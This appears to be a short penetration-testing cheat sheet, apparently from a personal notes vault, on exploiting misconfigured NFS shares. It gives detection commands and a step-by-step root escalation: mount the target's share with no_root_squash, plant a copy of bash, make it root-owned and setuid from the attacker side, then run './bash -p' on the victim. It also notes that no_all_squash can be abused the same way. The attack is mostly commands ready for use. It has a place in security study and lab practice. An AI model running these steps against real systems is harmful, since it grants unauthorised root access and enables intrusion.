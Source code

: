 # NFS share folder exploitation

#### Detection
```bash
# Look for the "no_root_squash" parameter
cat /etc/exports
nmap -sV --script=nfs-showmount 10.10.10.10
```
#### Exploitation
```bash
# On the attacker machine
mkdir /tmp/nfs
sudo mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
# OR
sudo mount -t nfs 10.10.10.10:/tmp /tmp/nfs

# On the victim machine
cp /bin/bash /tmp

# On the attacker machine 
sudo chown root:root bash
sudo chmod +sx bash

# On the victim machine
./bash -p
```

#### Debug
```bash
rpcinfo 10.10.168.93 |egrep "service|nfs"
```

#### Note about the "no_all_squash" parameter
![[Pasted image 20210706164427.png]]
the _no_all_squash_ setting is configured which does NOT map all the requests from other uids/gids to the anonymous uid/gid. This again is the default setting for NFS shares.

It is possible to abuse this parameter like with the "no_root_squash" but instead with a low privilege user